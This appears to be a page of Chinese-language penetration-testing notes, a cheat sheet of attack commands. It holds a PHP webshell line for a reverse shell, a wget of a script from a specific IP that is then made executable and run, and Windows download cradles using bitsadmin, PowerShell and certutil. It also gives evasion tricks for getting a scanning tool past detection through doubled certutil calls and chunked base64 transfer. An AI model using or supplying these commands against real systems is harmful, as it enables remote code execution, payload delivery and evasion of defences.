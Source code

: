 ```python
# 4. 发送POST请求
responses = send_post_requests(url, text_chunks)

# 输出每个响应状态码
for i, response in enumerate(responses):
    print(f"请求 {i+1} 状态码: {response.status_code}")
```

base64解码

```shell
base64 -d /tmp/tmp.txt > /tmp/payload
```



- 反弹shell

  https://forum.ywhack.com/shell.php

  ```php
  <?php system("/bin/bash -c '生成的命令'"); ?>
  ```

- 远程文件下载






# 远程文件下载

远程下载sh并执行

```shell
wget http://104.243.25.78:8888/1.sh
chmod 777 1.sh || chmod +x 1.sh
bash 1.sh
```

win

```powershell
bitsadmin /transfer n '下载地址' '保存地址'
```

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('下载地址','保存地址')
```

```bash
下载文件: certutil -urlcache -split -f '下载地址' '保存地址'
删除缓存: certutil -urlcache -split -f '下载地址' delete

# 绕过手段之双写certutil
certutil & certutil .....
# 绕过手段之分块传输
CertUtil -encode fscan.exe fscan_base64.txt # 编码
cmd=powershell -c "'§§' | Out-File C:\fscan_base64.txt -Append" #PowerShell追加写入
certutil -decode fscan_base64.txt fscan.exe # certutil还原文件
```
